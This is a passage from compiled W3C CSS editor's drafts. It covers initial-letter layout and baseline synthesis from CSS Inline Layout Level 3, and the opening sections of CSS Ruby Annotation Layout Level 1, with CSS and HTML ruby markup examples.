  >     initial-letter-wrap: -40%; /* Start of glyph outline, assuming correct font. */
  >   }
  > }
  > ```

  > **Issue:** These values and related annoyance is likely unnecessary if someone submits a patch to Blink to support `first`.

> **Issue:** Edit figure to show how auto behaves in varying contexts

> **Example:** ```
> p::first-letter {
>   initial-letter: 3;
>   initial-letter-wrap: none;
> }
> ```
>
> 
>
> Ordinary initial letter with no wrapping.

> **Example:** ```
> p::first-letter {
>   initial-letter: 3;
>   initial-letter-wrap: all;
> }
> ```
>
> 
>
> Text follows shape of initial letter. Each line box should just touch the ink of the letter, with some offset (represented by the shaded box).

> **Example:** ```
> p::first-letter {
>   initial-letter: 3;
>   initial-letter-wrap: first;
> }
> ```
>
> 
>
> Only the first line is moved up against the ink of the initial letter.

> **Example:** ```
> p::first-letter {
>   initial-letter: 3;
>   initial-letter-wrap: all;
> }
> ```
>
> 
>
> 
>
> 

#### 7.8.  Line Layout {#css-inline-3:initial-letter-line-layout}

An initial letter box is considered in-flow in its block formatting context, and is part of the contents of the line box in which it originates (its **originating line box**). Aside from the vertical axis (see [§ 7.6.1 Block-axis Positioning](#css-inline-3:initial-letter-block-position)), its interaction with the rest of the contents of the line is as normal for inline-level content, except in a few specific details…

##### 7.8.1.  Inline Flow Layout: Alignment, Justification, and White Space {#css-inline-3:initial-letter-inline-flow}

An initial letter box is handled similar to any other inline-level content participating in its originating line box, including participation in alignment, justification, and white space processing.

However, to ensure consistent alignment of all the impacted lines, collapsible white space between a sunken initial and subsequent content on its originating line is collapsed away, and any `letter-spacing` or justification opportunity that would normally be introduced by the juxtaposition of the contents of a sunken initial and the subsequent contents of the line is suppressed. (Note that this does not affect `word-spacing` or the justification opportunity introduced by a word separator because that space is provided by the typographic character unit alone and not by its juxtaposition with an adjacent character.)

##### 7.8.2.  Edge Effects: Indentation and Hanging Punctuation {#css-inline-3:initial-letter-indentation}

`text-indent` and `hanging-punctuation` apply to an initial letter’s originating line box as usual, and cause a shift in the start of the line’s contents including the initial letter itself. Subsequent lines affected by the exclusion are shortened as usual, possibly more or less than otherwise depending on the resulting position of the initial letter.


Initial letter with text indent.

> **Issue:** The interaction of `initial-letter` and `hanging-punctuation` is [under discussion](https://github.com/w3c/csswg-drafts/issues/310#issuecomment-396765893).

##### 7.8.3.  Ancestor Inlines {#css-inline-3:initial-letter-ancestors}

If the initial letter box is contained by inline box ancestors, the boundaries of those inline boxes are drawn to exclude the initial letter box, as if it were outside their startmost margin edge. This is a purely geometric operation: it does not affect e.g. property inheritance or the effective `letter-spacing` between the initial letter box and subsequent content.

##### 7.8.4.  Multi-line Initial Letters {#css-inline-3:initial-letter-multi-line}

If an initial letter is too long to fit on one line, it wraps (according to the usual text-wrapping rules), each line filled and formatted exactly as if it were the first line and the initial letter too long to fit any subsequent normal text. Any normal text after the initial letter starts on its last line, affected exactly as if that line were the first line.


Drop cap extends to two lines.

#### 7.9.  Clearing Initial Letters {#css-inline-3:initial-letter-paragraphs}

##### 7.9.1.  Raised and sunken caps {#css-inline-3:raised-sunken-caps}

The margin box of an initial letter contributes to the size of its containing element. Initial letters that extend above the first line of text, known as “raised caps” or “sunken caps,” do not extend up into previous elements. Since the content box for an initial letter includes all glyph ink, this also means that accents or other ink above the cap height of an initial letter will not impinge on previous elements.


Raised cap (`initial-letter: 3 1`) on right; note that the position of the “C” is the same in both cases, but on the right all text is moved down relative to the initial letter.

> **Issue:** Handle glyph ink above cap height of font. Proposal: Make it an exclusion area for line boxes and border boxes. Include margin specified on initial-letters as part of exclusion area in order to control spacing.

> **Issue:** Draw a box model diagram here. Does the margin of the initial letter collapse with its container?

##### 7.9.2.  Short paragraphs with initial letters {#css-inline-3:short-para-initial-letter}

A paragraph with an initial letter can have fewer lines of text than the initial letter occupies. In this case, the initial letter’s top alignment is still honored, and its exclusion area continues into any subsequent blocks. This forces the subsequent inline-level content to wrap around the initial letter—​exactly as if that block’s text were part of its own containing block. (This is similar to how floats exclude content in subsequent block boxes.)


The red text is a short paragraph with an initial letter. Note the subsequent paragraph wraps around the initial letter just as text in the paragraph with the initial letter does.

If the subsequent block starts with an initial letter, establishes an independent formatting context, or specifies `clear` in the initial letter’s containing block’s start direction, then it must clear the previous block’s initial letter.


The red text is a short paragraph with an initial letter. The subsequent paragraph clears because it also has an initial letter.

##### 7.9.3.  Interaction with floats {#css-inline-3:initial-letter-floats}

Initial letters are not [floats](#css2:floats): they are in-flow inline-level content that belongs to a line box. Therefore:

- The `clear` property does not care about initial letters: it neither applies to initial letters nor clears them when applied to nearby floats.
- Like line boxes or floats, initial letter boxes must not overlap the margin boxes of any floats participating in the same block formatting context. An overlapping initial letter box is shifted inward or downward until either it fits without overlapping or there are no more floats present.
- If a line box’s start edge shifts or moves down to clear a float, an initial letter originating in it moves with it; likewise if an initial letter shifts inward or moves downward to clear a float, its originating line box and subsequent line boxes shorten and/or move accordingly.
- If an inline-start float originates in the first line of content adjacent to an initial letter, then it moves past the initial letter towards the containing block edge, exactly as if the initial letter were any other inline-level content.

  However, if such a float originates in subsequent lines of content adjacent to a (sunk) initial letter, then that float must clear the initial letter.


In the absence of an initial letter, the first line of text could abut the blue float. But the presence of the initial letter requires that the text move over.

See [CSS2§9.5](#css2:floats) for more information about the layout of floats and adjacent content. [CSS2]

> **Issue:** Whether an inline-end float originating in subsequent lines must clear the initial letter (as inline-start floats do) is [still under discussion](https://lists.w3.org/Archives/Public/www-style/2018Jul/0019.html). There is no aesthetic reason to require it; however it’s yet unclear how the underlying layout model would distinguish between the two cases.

##### 7.9.4.  Interaction with Fragmentation (Pagination) {#css-inline-3:initial-letter-breaking}

Since a single glyph cannot be fragmented across pages (or columns or other fragmentation containers), an initial letter is considered monolithic [CSS-BREAK-3] for the purpose of block-axis fragmentation (breaking across pages, columns, regions, etc.). Additionally, breaks between the in-flow lines alongside an initial letter box are avoided, much as breaks between line boxes affected be `widows` and `orphans` are avoided. However, if there is a forced break alongside the initial letter box, then it takes precedence; but has no effect on the initial letter box itself.

As with other monolithic objects, if an initial letter box occurs at the top of a fragmentation container and that fragmentation container is too short to contain it, it may be either truncated or sliced. Adjacent content, however, must be fragmented according to its own rules, not truncated or sliced along with the initial letter.

### Appendix A: Synthesizing Alignment Metrics {#css-inline-3:baseline-synthesis}

#### A.1: Calculating Em-over and Em-under {#css-inline-3:baseline-synthesis-em}

> **Note:** The em-over and em-under baselines are not used by CSS. Their definitions are included in this module for consistency with the other metrics used by [Canvas TextMetrics API](https://html.spec.whatwg.org/multipage/canvas.html#textmetrics).

The em-over and em-under metrics are calculated as follows:

- If any one of central, ideographic-over, or ideographic-under is defined by the font, then em-over is 0.5em over the central baseline, and em-under is 0.5em under it, with the central baseline derived from the others if missing or undefined (see below).
- Otherwise, the ascent and descent are both proportionally augmented or reduced to add up to exactly 1em, and these normalized metrics are taken as the em-over and em-under metrics, respectively.

> **Note:** This calculation ensures that em-over and em-under are always exactly 1em apart while trying to center the glyph outlines’ “center of gravity” between them.

#### A.2: Synthesizing Baselines (and Other Font Metrics) for Text {#css-inline-3:baseline-synthesis-fonts}

Some fonts might not contain the metrics information necessary to align text properly as described in this module. User agents may use the following strategies in the absence of a required metric:

**Use related metrics**

: Certain metrics are typically related, and this relationship can be used to at least heuristically derive the missing metric. If the font format itself does not define any specific calculations, the following rules may be used:

  1. The central baseline is defined to be halfway between the ideographic-over and ideographic-under baselines, so any two of these determines the third.
  2. The ideographic-over and ideographic-under baselines are typically `1em` apart, so if only one of the ideographic-over/ideographic-under/central baselines are provided, this relation can be used to calculate the other two.
  3. In CJK fonts the ascent and descent typically match the ideographic-over and ideographic-under baselines, so can be used as a fallback when both are missing.

**Measure the font**

: Metrics may be derived from the glyph shapes. For example,

  1. The center of the minus sign (U+2212) can be taken as the mathematical baseline.
  2. The amount by which the lowercase “o” descends below the alphabetic baseline can be subtracted from its highest point to [measure the x-height](#css-values-4:ex).

     

     Measuring the x height.
  3. The amount by which the uppercase “O” descends below the alphabetic baseline can be subtracted from its highest point to measure the cap-height.
  4. The bounding box of 永 (U+6C38) can be used to find the ideographic character face edges.
  5. The top edge of the center of the Hebrew He (U+05D4 “ה”) can be taken as the Hebrew hanging baseline.
  6. The top edge of the center of the letter Ka can be taken as the hanging baseline. Which Ka is used should depend on the content language:

     | Language | Script | Letter |
     | --- | --- | --- |
     |  | Devanagari | क U+0915 KA |
     |  | Bengali | ক U+0995 |
     |  | Gurmukhi | ਕ U+0A15 |
     |  | Tibetan | ཀ U+0F40 |

     > **Issue:** Pick a default.

     

     The hanging baseline is at the top edge of the character ink.
  7. > **Issue:** Add more notes here?

  > **Issue:** Somebody sanity-check these heuristics please.

**Use fallback values**

: The following fallback values are suggested:

  - x-height: .5em;
  - cap-height: .66em;
  - hanging baseline: .6em;

#### A.3: Synthesizing Baselines for Atomic Inlines {#css-inline-3:baseline-synthesis-box}

If an atomic inline (such as an inline-block, inline-table, or replaced element) does not have a content-derived baseline set in the inline axis of the inline formatting context in which it participates, then the UA must synthesize its baselines as follows in order to align it.

These baselines are assumed to be **at its line-under margin edge**:

- text-under baseline
- ideographic-under baseline
- ideographic-ink-under baseline
- alphabetic baseline

These baselines are assumed to be **halfway between its line-under and line-over margin edges**:

- central baseline
- math baseline
- x-middle baseline

These baselines are assumed to be **at its line-over margin edge**:

- text-over baseline
- ideographic-over baseline
- ideographic-ink-over baseline
- cap-height baseline
- hanging baseline
- x-height baseline

> **Note:** Authors can use margins (positive or negative) to adjust the alignment of replaced content within a line.

> **Example:** In this example, the author is using a set of images to display characters that don’t exist.
>
> ```
> img[src^="/text/"] {
>   height: 1em; /* Size to match adjacent text */
>   margin-bottom: -0.2em; /* Baseline at 20% above bottom */
> }
> ...
> <p>This is some text with words written in an unencoded script:
> 
>   
>   
> ```

> **Note:** A future level of CSS may include a way of specifying a full baseline table for replaced elements. (This will probably look like a `baseline-table` property that accepts `[<baseline-keyword> <percentage>]+`.)

---

## CSS Ruby Annotation Layout Module Level 1 {#css-ruby-1}

- **Shortname:** `css-ruby-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-ruby-1/](https://drafts.csswg.org/css-ruby-1/)
- **Published TR:** [https://www.w3.org/TR/css-ruby-1/](https://www.w3.org/TR/css-ruby-1/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-05-01

### 1.  Introduction {#css-ruby-1:intro}

#### 1.1.  What is ruby? {#css-ruby-1:ruby-def}

*This subsection is not normative.*

**Ruby** is the commonly-used name for a run of text that appears alongside another run of text (referred to as the “base”) and serves as an annotation or a pronunciation guide associated with that run of text.


A run of Japanese text with phonetic ruby annotations indicating the pronunciation of each ideograph.

The following figures show two examples of Ruby, a simple case and one with more complicated structure.

> **Example:** In this example, a single annotation is used to annotate a base text consisting of multiple characters.
>
> 
>
> Example of ruby used in Japanese (simple case)
>
> In Japanese typography, this case is sometimes called taigo ruby (Japanese: 対語ルビ, i.e. per-word ruby) or group-ruby, because the annotation as a whole is associated with multi-character word (as a whole).

> **Example:** In this second example, two levels of annotations are attached to the base text: the hiragana characters on top refer to the pronunciation of each of the base kanji characters, while the words “Keio” and “University” on the bottom are give the English translation.
>
> 
>
> Complex ruby with annotation text over and under the base characters
>
> Notice that to reflect the correct association of hiragana characters and their corresponding Kanji base characters, the spacing within the base-level text is adjusted. (This happens around the fourth Kanji character in the figure above, which has a three-character phonetic gloss.) To avoid variable spacing of the base text in the example above, the hiragana annotations can be styled as a merged annotation, which will look more like the group-ruby example earlier. However because the base-annotation pairings are recorded in the ruby structure, if the text breaks across lines, the annotation characters will stay correctly paired with their respective base characters.

In HTML, ruby structure and markup to represent it is described in the Ruby Markup Extension specification. This module describes the CSS rendering model and formatting controls relevant to ruby layout of such markup.

A more in-depth introduction to Ruby and its formatting can be found in the “What is Ruby“ article [QA-RUBY]. Extensive information about the main ways ruby has traditionally been formatted in Japanese can be found in JIS X-4051 [JIS4051] (in Japanese) and in [“Ruby and Emphasis Dots”](https://www.w3.org/TR/jlreq/#ruby_and_emphasis_dots) in Requirements for Japanese Text Layout [JLREQ] (in English and Japanese); Rules for Simple Placement of Japanese Ruby [SIMPLE-RUBY] also describes (in English) one possible approach for Japanese ruby formatting. [“Interlinear annotations”](https://www.w3.org/TR/clreq/#interlinear_annotations) in Requirements for Chinese Text Layout [CLREQ] describes the related practices for Chinese typography (in Chinese and English).

#### 1.2.  Module interactions {#css-ruby-1:placement}

This module extends the inline box model of CSS Level 2 [CSS2] to support ruby.

None of the properties in this module apply to the `::first-line` or `::first-letter` pseudo-elements; however `ruby-position` can inherit through `::first-line` to affect ruby annotations on the first line.

#### 1.3.  Value Definitions {#css-ruby-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords keywords as their property value. For readability they have not been repeated explicitly.

#### 1.4.  Diagram conventions {#css-ruby-1:diagram-conventions}

*This subsection is not normative.*

Many typographical conventions in East Asian typography depend on whether the character rendered is wide (CJK) or narrow (non-CJK). There are a number of illustrations in this document for which the following legend is used:

****

: Wide-cell glyph (e.g. Han) that is the *n*th character in the text sequence. They are typically sized to 50% when used as annotations.

****

: Narrow-cell glyph (e.g. Roman) which is the *n*th glyph in the text sequence.

The orientation which the above symbols assume in the diagrams corresponds to the orientation that the glyphs they represent are intended to assume when rendered by the user agent. Spacing between these characters in the diagrams is incidental, unless intentionally changed to make a point.

### 2.  Ruby Box Model {#css-ruby-1:ruby-model}

The CSS ruby model is based on the [W3C HTML5 Ruby Markup](https://www.w3.org/TR/html5/text-level-semantics.html#the-ruby-element) model and the [XHTML Ruby Annotation Recommendation](https://www.w3.org/TR/ruby/) [RUBY]. In this model, a ruby structure consists of one or more ruby base elements representing the base (annotated) text, associated with one or more levels of ruby annotation elements representing the annotations. The structure of ruby is similar to that of a table: there are “rows” (the base text level, each annotation level) and “columns” (each ruby base and its corresponding ruby annotations).


The Japanese compound word “上手” annotated with its pronunciation “じょうず”. Each syllable is associated individually with its base character.

Sets of consecutive bases and their consecutive annotations are grouped together into ruby segments. Within a ruby segment, a ruby annotation may span multiple ruby bases.


The Chinese city name “旧金山” annotated with its pronunciation in Pinyin “jiùjīnshān” and its English name “San Francisco”. Each Pinyin syllable is associated individually with its base character, however the English name is associated with the name as a whole.

> **Note:** In HTML, a single `<ruby>` element may contain multiple ruby segments. (In the XHTML Ruby model, a single `<ruby>` element can only contain one ruby segment.)

#### 2.1.  Ruby-specific `display` Values {#css-ruby-1:ruby-display}

For document languages (such as XML applications) that do not have pre-defined ruby elements, authors must map document language elements to ruby elements; this is done with the `display` property.

| Field | Value |
| --- | --- |
| Name: | `display` |
| [New values:](#css-values-4:value-defs) | ruby \| ruby-base \| ruby-text \| ruby-base-container \| ruby-text-container |

The following new `display` values assign ruby layout roles to an arbitrary element:

****ruby****

: Specifies that an element generates a **ruby container box**. (Corresponds to HTML/XHTML `<ruby>` elements.)

****ruby-base****

: Specifies that an element generates a **ruby base box**. (Corresponds to HTML/XHTML `<rb>` elements.)

****ruby-text****

: Specifies that an element generates a **ruby annotation box**. (Corresponds to HTML/XHTML `<rt>` elements.)

****ruby-base-container****

: Specifies that an element generates a **ruby base container box**. (Corresponds to XHTML `<rbc>` elements; generated as an anonymous box in HTML.)

****ruby-text-container****

: Specifies that an element generates a **ruby annotation container box**. (Corresponds to HTML/XHTML `<rtc>` elements.)

> **Advisement:** Authors using a language (such as HTML) that supports dedicated ruby markup should use that markup rather than styling arbitrary elements (like `<span>`) with ruby `display` values. Using the correct markup ensures that screen readers and non-CSS renderers can interpret the ruby structures.

> **Note:** Replaced elements with a `display` value of `ruby-base`, `ruby-text`, `ruby-base-container`, and `ruby-text-container` are treated as inline-level boxes, as per [CSS Display 3 § 2.4 Layout-Internal Display Types: the table-* and ruby-* keywords](#css-display-4:layout-specific-display); replaced elements with a `display` value of `ruby` or `inline ruby` behave according to their outer display type, as per [CSS Display 3 § 2.1 Outer Display Roles for Flow Layout: the block, inline, and run-in keywords](#css-display-4:outer-role). (See also [§ 2.1.2 Non-Inline Ruby](#css-ruby-1:block-ruby).)

##### 2.1.1.  The Ruby Formatting Context {#css-ruby-1:formatting-context}

Ruby containers are non-atomic inline-level boxes. Like regular inline boxes (see [CSS Inline Layout 3 § 2 Inline Layout Model](#css-inline-3:model)), they break across lines, and their containing block is the nearest block container ancestor. And just as the contents of an inline box participate in the same inline formatting context that contains the inline box itself, a ruby container and its base-level contents participate in the same inline formatting context that contains the ruby container itself.

However ruby containers also establish a **ruby formatting context** that builds further structure around their segment of the inline formatting context in order to host their annotations. Note: this formatting context is *not* an independent formatting context. Ruby bases, ruby annotations, ruby base containers, and ruby annotation containers are **internal ruby boxes**: like internal table elements, they have specific roles in ruby layout, and participate in their ruby container’s ruby formatting context. In addition to their role in the ruby formatting context, ruby bases simultaneously participate in the same base-level inline formatting context as the ruby container, while ruby annotations participate in separate annotation-level inline formatting contexts established by the ruby container.

As with the contents of inline boxes, the containing block for the contents of a ruby container (and all its internal ruby boxes) is the containing block of the ruby container. So floats, for example, are trapped by the ruby container’s containing block, not any of the ruby box types.

##### 2.1.2.  Non-Inline Ruby {#css-ruby-1:block-ruby}

If an element has an inner display type of `ruby` and an outer display type other than `inline`, then it generates two boxes: a principal box of the required outer display type type, and an inline-level ruby container. All properties specified on the element apply to the principal box (and if inheritable, inherit to the ruby container box). This allows styling the element as a block, while correctly maintaining the internal ruby structure.

> **Note:** Absolute positioning or floating an element causes its `display` value to compute to a block-level equivalent. (See [CSS-DISPLAY-3] or [CSS2] section 9.7.) For the internal ruby display types, this causes their `display` value to compute to `block`.

#### 2.2.  Anonymous Ruby Box Generation {#css-ruby-1:box-fixup}

The CSS model does not require that the document language include elements that correspond to each of these components. Missing parts of the structure are implied through the anonymous box generation rules [similar to those used to normalize tables](#css2:anonymous-boxes). [CSS2]

1. **Inlinify block-level boxes:** Any in-flow boxes directly contained by a ruby container, ruby base container, ruby annotation container, ruby base box, or ruby annotation box are “inlinified” per [CSS-DISPLAY-3]), and their `display` value computed accordingly, so that they contain only inline-level content. For example, the `display` property of an in-flow element with `display: block` parented by an element with `display: ruby-text` computes to `inline-block`.
2. **Generate anonymous ruby containers:** Any [consecutive](#css2:anonymous-boxes) sequence of improperly-contained ruby base containers, ruby annotation containers, ruby bases, and/or ruby annotations (and any intervening white space) is wrapped in an anonymous ruby container. For the purpose of this step:

  - an improperly-contained ruby base is one not parented by a ruby base container or ruby container
  - an improperly-contained ruby annotation is one not parented by a ruby annotation container or ruby container
  - an improperly-contained ruby base container or ruby annotation container is one not parented by a ruby container
3. **Wrap misparented inline-level content:** Any consecutive sequence of text and inline-level boxes directly parented by a ruby container or ruby base container is wrapped in an anonymous ruby base. Similarly, any consecutive sequence of text and inline-level boxes directly parented by a ruby annotation container is wrapped in an anonymous ruby annotation. (For this purpose, misparented internal table elements are treated as inline-level content since, being parented by ruby boxes, they will be ultimately wrapped by an inline-level table wrapper box.)

   However, if an anonymous box so constructed contains only white space, it is considered **intra-ruby white space** and is either discarded or preserved as described below.
4. **Trim leading/trailing white space:** Any intra-ruby white space that is not the sole in-flow child of its parent and is the first or last in-flow child of a ruby container, ruby annotation container, or ruby base container is removed, as if it had `display: none`
5. **Remove inter-level white space:** Any intra-ruby white space whose immediately adjacent in-flow siblings match one of the patterns below is **inter-level white space** and is removed, as if it had `display: none`.

   | Previous box | Next box |
   | --- | --- |
   | any | ruby annotation container |
   | not ruby annotation | ruby annotation |
6. **Interpret intra-level white space:** Any intra-ruby white space box whose immediately adjacent in-flow siblings match one of the patterns below is assigned the box type and subtype defined in the table below:

   | Previous box | Next box | Box type | Subtype |
   | --- | --- | --- | --- |
   | ruby base | ruby base | ruby base | **inter-base white space** |
   | ruby annotation | ruby annotation | ruby annotation | **inter-annotation white space** |
   | ruby annotation or ruby annotation container | ruby base or ruby base container | ruby base | **inter-segment white space** |
   | ruby base or ruby base container | ruby base container |  |  |
   | ruby base container | ruby base or ruby base container |  |  |

   The **intra-level white space** boxes defined above are treated specially for pairing and layout. See below.
7. **Suppress line breaks:** Convert all forced line breaks inside ruby annotations (regardless of `white-space` value) as defined for collapsible segment breaks in [CSS Text Level 3 § 4.1.2](#css-text-4:line-break-transform).

   > **Issue:** The goal of this is to simplify the layout model by suppressing any line breaks within ruby annotations. Alternatively we could try to define some kind of acceptable behavior for them.
8. **Generate anonymous level containers:** Any consecutive sequence of ruby bases and inter-base white space (and not inter-segment white space) not parented by a ruby base container is wrapped in an anonymous ruby base container. Similarly, any consecutive sequence of ruby annotations and inter-annotation white space not parented by a ruby annotation container is wrapped in an anonymous ruby annotation container.

Once all ruby layout structures are properly parented, the UA can start to associate bases with their annotations.

> **Note:** The UA is not required to create any of these anonymous boxes (or the anonymous empty intra-level white space boxes in [§ 2.3 Annotation Pairing](#css-ruby-1:ruby-pairing)) in its internal structures, as long as pairing and layout behaves as if they existed.

> **Example:** The following markup diagram representing the various boxes shows where intra-ruby white space is preserved or discarded:
>
> ```
> <ruby>×<rbc>×<rb></rb>⬕<rb></rb>×</rbc>☒<rtc>×<rt></rt>⬔<rt></rt>×</rtc>◼<rbc>×<rb></rb>…</rtc>×</ruby>
> ```
>
> where
>
> - × represents [discarded leading/trailing white space](#css-ruby-1:anon-gen-trim-space)
> - ☒ represents [discarded inter-level white space](#css-ruby-1:anon-gen-discard-space)
> - ⬕ represents inter-base white space
> - ⬔ represents inter-annotation white space
> - ◼ represents inter-segment white space

#### 2.3.  Annotation Pairing {#css-ruby-1:ruby-pairing}

Annotation **pairing** is the process of associating ruby annotations with ruby bases. Each ruby annotation is associated with one or more ruby bases, and is said to **span** those bases. (A ruby annotation that spans multiple bases is called a **spanning annotation**.)

A ruby base can be associated with only one ruby annotation per annotation level. However, if there are multiple annotation levels, it can be associated with multiple ruby annotations.

Once pairing is complete, **ruby columns** are defined, each represented by a single ruby base and one ruby annotation (possibly an empty, anonymous one) from each interlinear annotation level in its ruby segment.

##### 2.3.1.  Segment Pairing and Annotation Levels {#css-ruby-1:segment-pairing}

A ruby structure is divided into **ruby segments**, each consisting of a single ruby base container followed by one or more ruby annotation containers. Each ruby annotation container in a ruby segment represents one **level** of annotation for the base text: the first one represents the first level of annotation, the second one represents the second level of annotation, and so on. The ruby base container represents the **base level**. The ruby base container in each segment is thus paired with each of the ruby annotation containers in that segment.

In order to handle degenerate cases, some empty anonymous containers are assumed:

- If the first child of a ruby container is a ruby annotation container, an anonymous, empty ruby base container is assumed to exist before it.
- Similarly, if the ruby container contains consecutive ruby base containers, anonymous, empty ruby annotation containers are assumed to exist between them.

Inter-segment white space is effectively a ruby segment of its own.

##### 2.3.2.  Unit Pairing and Spanning Annotations {#css-ruby-1:base-annotation-pairing}

Within a ruby segment, each ruby base in the ruby base container is paired with one ruby annotation from each ruby annotation container in its ruby segment.

If a ruby annotation container contains only a single, anonymous ruby annotation, then that ruby annotation is paired with (i.e. spans across) all of the ruby bases in its ruby segment.

Otherwise, each ruby annotation is paired, in document order, with the corresponding ruby base in that segment. If there are not enough ruby annotations in a ruby annotation container, the remaining ruby bases are paired with anonymous empty annotations inserted at the end of the ruby annotation container. If there are not enough ruby bases, any remaining ruby annotations pair with empty, anonymous bases inserted at the end of the ruby base container.

If an implementation supports ruby markup with explicit spanning (e.g. XHTML Complex Ruby Annotations), it must adjust the pairing rules to pair spanning annotations to their bases appropriately.

Intra-level white space does not participate in standard annotation pairing. However, if the immediately-adjacent ruby bases or ruby annotations are paired

- with two ruby bases or annotations that surround corresponding intra-level white space in another level, then the so-corresponding intra-level white space boxes are also paired.
- with a single spanning ruby annotation, then the intra-level white space is also paired to that ruby annotation
- with two ruby bases or annotations with no intervening intra-level white space, then the intra-level white space box pairs with an anonymous empty intra-level white space box assumed to exist between them.

> **Example:** The following diagram shows the pairing of regular base and annotation boxes as well as the pairing of intra-ruby white space (represented as `ws`):
>
> ```
> |[  s p a n n i n g   a n n o t a t i o n ]|
> |[ a1 ]|[ws]|[ a2 ]|[  ]|[ a3 ]|[ws]|[ a4 ]|
> |[ b1 ]|[ws]|[ b2 ]|[ws]|[ b3 ]|[  ]|[ b4 ]|
> ```
>
> Blue brackets (`[ ]`) represent base boxes, red brackets (`[ ]`) represent annotation boxes, gray bars (`|`) represent the limits of ruby columns, `[ws]` represents intra-ruby white space, and `[]` represents an empty anonymous base or annotation automatically generated to pair with intra-ruby white space in another level. Ruby containers, base containers, and annotation containers are omitted.

#### 2.4.  Hiding Annotations: `visibility: collapse` and auto-hidden ruby {#css-ruby-1:hiding}

A ruby annotation whose `visibility` is `collapse` is a **hidden annotation**. Additionally, if a ruby annotation has the exact same text content as its base, it is automatically hidden (**auto-hidden**) by the UA.

Hiding a ruby annotation does not affect annotation pairing. However the hidden annotation is not visible, and it has no impact on layout other than to separate adjacent sequences of ruby annotation boxes within its level, as if they belonged to separate segments and the hidden annotation’s base were not a ruby base but an intervening inline.

> **Example:** Auto-hiding allows correct inlined display of annotations for Japanese words that are a mix of kanji and hiragana. For example, the word 振り仮名 should be inlined as
>
> 振り仮名(ふりがな)
>
> and therefore marked up as
>
> ```
> <ruby>
>   <rb>振</rb><rb>り</rb><rb>仮</rb><rb>名</rb>
>   <rp>(</rp><rt>ふ</rt><rt>り</rt><rt>が</rt><rt>な</rt><rp>)</rp>
> </ruby>
> ```
>
> However, when displayed as ruby, the “り” should be hidden
>
> 
>
> Hiragana ruby for 振り仮名. Notice there is no hiragana annotation above り, since it is already in hiragana.

> **Example:** The Japanese word in this example is composed of three kanji characters, one of which is taught in first grade, while the other two are more advanced. (Characters colored to show base-pair correspondences.)
>
> ```
> <ruby><rb>昆<rb>虫<rb>記<rt>こん<rt class=easy>ちゅう<rt>き</ruby>
> ```
>
> 
>
> Fully annotated three-character word
>
> Although some readers might need pronunciation guidance on all three characters, for other audiences it is more appropriate to hide the annotation on the easier character. Applying `visibility: collapse` enables this hiding:
>
> 
>
> Middle annotation as `visibility: collapse`
>
> The hiding behavior of `visibility: collapse` differs from `visibility: hidden`—​which makes the annotation invisible, but does not remove its impact on layout:
>
> 
>
> Middle annotation as `visibility: hidden`
>
> It also differs from `display: none` because `visibility: collapse` preserves pairing relationships, whereas `display: none` removes the box from the tree entirely, disturbing the pairing of any annotations after it:
>
> 
>
> Middle annotation as `display: none`

When the computed value of `ruby-merge` on the annotation container is `merge`, hiding is disabled. When that value is `auto`, the user agent may decide whether to disable hiding of its annotations, but it is recommended to enable hiding if the user agent’s layout algorithm produces the results similar to `separate`.

The content comparison for auto-hiding takes place prior to white space collapsing (`white-space`) and text transformation (`text-transform`) and ignores elements (considers only the `textContent` of the boxes).

> **Note:** Future levels of CSS Ruby may add controls for auto-hiding, but in this level it is always forced.

#### 2.5.  White Space Collapsing {#css-ruby-1:white-space}

As discussed in [§ 2.2 Anonymous Ruby Box Generation](#css-ruby-1:box-fixup), white space within a ruby structure is [discarded](#css-ruby-1:anon-gen-discard-space):

- at the beginning and end of a ruby container, annotation container, or base container,
- between a base container and its following annotation container,
- between annotation containers.

> **Example:** For example, the following markup will display without any spaces:
>
> ```
> <ruby>
>   <rb>東</rb><rb>京</rb>
>   <rt>とう</rt><rt>きょう</rt>
>   <rtc><rt>Tō</rt><rt>kyō</rt></rtc>
> </ruby>
> ```

Between ruby segments, between ruby bases, and between ruby annotations, however, white space is not discarded, and is maintained for rendering as inter-base, inter-annotation, or inter-segment white space. (See [Interpret intra-level white space](#css-ruby-1:anon-gen-interpret-space), above.)

> **Example:** The rules preserving white space allow ruby to be used with space-separated scripts such as Latin. For example,
>
> ```
> <ruby>
>   <rb>W</rb><rb>W</rb><rb>W</rb>
>   <rt>World</rt> <rt>Wide</rt> <rt>Web</rt>
> </ruby>
> ```
>
> They also ensure that annotated white space is preserved. For example,
>
> ```
> <ruby>
>   <rb>Aerith</rb><rb> </rb><rb>Gainsborough</rb>
>   <rt>エアリス</rt><rt>・</rt><rt>ゲインズブール</rt>
> </ruby>
> ```

Where undiscarded white space is collapsible, it will collapse across adjacent boxes in each line box following the standard [white space processing rules](#css-text-4:white-space-rules) [CSS-TEXT-3]. Annotations in separate ruby segments or separated by hidden annotations are not considered adjacent; however all base-level content (including inter-character annotations, which are treated as atomic inlines) is. For collapsible white space between ruby segments (inter-segment white space), the contextual text for determining [segment break transformations](#css-text-4:line-break-transform) is thus given by the ruby bases on either side, not necessarily the text on either side of the white space in source document order (which could include interlinear annotations).

> **Note:** The white space processing rules cause a white space sequence containing a segment break (such as a line feed) to [collapse to nothing](#css-text-4:line-break-transform) between Han and Kana characters. This means that Chinese and Japanese ruby can safely use white space for indentation of ruby markup. For example, the following markup will display without any spaces:
>
> ```
> <ruby>
>   屋<rt>おく</rt>内<rt>ない</rt>
>   禁<rt>きん</rt>煙<rt>えん</rt>
> </ruby>
> ```
>
> However, white space that does not contain a segment break does not collapse completely away, so this markup will display with a space between the first and second ruby pairs:
>
> ```
> <ruby>
>   屋<rt>おく</rt>	内<rt>ない</rt>
>   禁<rt>きん</rt>	煙<rt>えん</rt>
> </ruby>
> ```

### 3.  Ruby Layout {#css-ruby-1:ruby-layout}

When a ruby structure is laid out, its base level is initially laid out on the line exactly as if its ruby bases were a regular sequence of inline boxes and the ruby container a regular inline box wrapped around it.

If a ruby container has any inter-character annotations, they are laid out into the base level as detailed in [§ 3.2 Inter-character Ruby Layout](#css-ruby-1:inter-character-layout). Subsequently, the base container is sized and interlinear annotations are laid out as detailed in [§ 3.1 Interlinear Ruby Layout](#css-ruby-1:interlinear-layout).

